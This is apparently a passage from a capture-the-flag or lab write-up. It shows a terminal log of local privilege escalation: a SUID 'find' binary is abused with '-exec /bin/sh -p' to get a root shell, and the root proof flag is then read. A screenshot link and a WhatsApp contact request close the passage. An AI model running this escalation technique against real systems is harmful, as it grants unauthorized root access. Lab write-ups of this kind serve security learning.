 ```

$ locate find
locate find
/bin/sh: 14: locate: not found
$ ./find . -exec /bin/sh -p \; -quit
./find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
# /bin/bash -i
/bin/bash -i
bash-5.0$ ./find . -exec /bin/sh -p \; -quit
./find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
# pwd
pwd
/usr/bin
# cd /root
cd /root
# ls
ls
proof.txt
# cat proof.txt	
cat proof.txt
/bin/sh: 5: cat: not found
# tail proof.txt
tail proof.txt
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


root{63a9f0ea7bb98050796b649e85481845!!}
# 



```
![Screenshot From 2025-06-02 22-38-23](https://github.com/user-attachments/assets/3075ef62-d602-4770-ada2-792c4da5ba35)

>Hey happy right call me 255688115216, so we can share idea whatsapp.
{: .prompt-tip }

